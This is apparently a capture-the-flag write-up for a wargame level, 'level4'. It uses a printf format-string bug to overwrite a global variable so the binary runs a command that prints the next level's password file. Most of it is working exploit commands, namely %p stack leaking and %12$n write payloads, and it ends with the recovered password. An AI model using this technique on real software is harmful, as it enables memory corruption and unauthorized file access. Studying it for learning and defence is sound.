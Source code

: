 Again like the previous level the begin is the same.

We are in the `n` function, `n` calls `fgets` then calls `p` (witch only calls `printf`),
then compare the return of `p` (witch is the return of `printf`) to **0x1025544** (16930116).
Except `eax` is set to 0 just before, if the comparaison is true it will call 
`system("/bin/cat /home/user/level5/.pass")`

So let's mess around with the memory.

(python -c 'print("AAAA" + "%p " * 15)'; cat) | ./level4
> AAAA0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 **0x41414141** 0x25207025 0x70252070 0x20702520

and 0x414141... is located at the 12th position.

**0x8049810** is the value we want to modify (see n function file).

`(python -c 'print("\x10\x98\x04\x08" + "a" * 16930112 + "%12$n")'; cat) | ./level4`

But the buffer to `fgets` is to "little" for what we want to do (around 512).

`(python -c 'print("\x10\x98\x04\x08" + "%16930112c%12$n")'; cat) | ./level4`

> 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
